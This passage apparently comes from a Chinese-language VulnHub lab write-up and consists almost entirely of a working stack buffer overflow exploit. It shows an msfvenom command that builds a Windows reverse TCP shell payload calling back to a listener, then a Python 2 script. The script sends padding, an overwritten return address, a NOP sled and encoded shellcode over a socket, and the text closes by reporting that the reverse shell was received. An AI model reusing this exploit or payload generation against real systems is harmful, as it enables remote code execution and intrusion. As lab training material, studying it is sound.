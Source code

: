 ```bash
# Windows
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=444 -f c -b "\x00\x0A\x0D\x25\x26\x2B\x3D" EXITFUNC=thread
```

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
#34581777   \x77\x17\x58\x34
#345964BA
buf =  ("\xb8\xe6\xe1\x99\x27\xda\xcd\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
	"\x52\x31\x42\x12\x83\xc2\x04\x03\xa4\xef\x7b\xd2\xd4\x18\xf9"
	"\x1d\x24\xd9\x9e\x94\xc1\xe8\x9e\xc3\x82\x5b\x2f\x87\xc6\x57"
	"\xc4\xc5\xf2\xec\xa8\xc1\xf5\x45\x06\x34\x38\x55\x3b\x04\x5b"
	"\xd5\x46\x59\xbb\xe4\x88\xac\xba\x21\xf4\x5d\xee\xfa\x72\xf3"
	"\x1e\x8e\xcf\xc8\x95\xdc\xde\x48\x4a\x94\xe1\x79\xdd\xae\xbb"
	"\x59\xdc\x63\xb0\xd3\xc6\x60\xfd\xaa\x7d\x52\x89\x2c\x57\xaa"
	"\x72\x82\x96\x02\x81\xda\xdf\xa5\x7a\xa9\x29\xd6\x07\xaa\xee"
	"\xa4\xd3\x3f\xf4\x0f\x97\x98\xd0\xae\x74\x7e\x93\xbd\x31\xf4"
	"\xfb\xa1\xc4\xd9\x70\xdd\x4d\xdc\x56\x57\x15\xfb\x72\x33\xcd"
	"\x62\x23\x99\xa0\x9b\x33\x42\x1c\x3e\x38\x6f\x49\x33\x63\xf8"
	"\xbe\x7e\x9b\xf8\xa8\x09\xe8\xca\x77\xa2\x66\x67\xff\x6c\x71"
	"\x88\x2a\xc8\xed\x77\xd5\x29\x24\xbc\x81\x79\x5e\x15\xaa\x11"
	"\x9e\x9a\x7f\xb5\xce\x34\xd0\x76\xbe\xf4\x80\x1e\xd4\xfa\xff"
	"\x3f\xd7\xd0\x97\xaa\x22\xb3\x9d\x2a\x2e\x4c\xca\x28\x2e\x53"
	"\xb6\xa4\xc8\x39\xd6\xe0\x43\xd6\x4f\xa9\x1f\x47\x8f\x67\x5a"
	"\x47\x1b\x84\x9b\x06\xec\xe1\x8f\xff\x1c\xbc\xed\x56\x22\x6a"
	"\x99\x35\xb1\xf1\x59\x33\xaa\xad\x0e\x14\x1c\xa4\xda\x88\x07"
	"\x1e\xf8\x50\xd1\x59\xb8\x8e\x22\x67\x41\x42\x1e\x43\x51\x9a"
	"\x9f\xcf\x05\x72\xf6\x99\xf3\x34\xa0\x6b\xad\xee\x1f\x22\x39"
	"\x76\x6c\xf5\x3f\x77\xb9\x83\xdf\xc6\x14\xd2\xe0\xe7\xf0\xd2"
	"\x99\x15\x61\x1c\x70\x9e\x81\xff\x50\xeb\x29\xa6\x31\x56\x34"
	"\x59\xec\x95\x41\xda\x04\x66\xb6\xc2\x6d\x63\xf2\x44\x9e\x19"
	"\x6b\x21\xa0\x8e\x8c\x60")
buff = "A"*272
eip = '\x77\x17\x58\x34'
nullByte = "\x00"
nops = "\x90" * 24 
inputBuffer = buff + eip + nops  + buf + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![13](https://static.iihack.com/vulnhub/424/13.PNG)

接收反弹成功
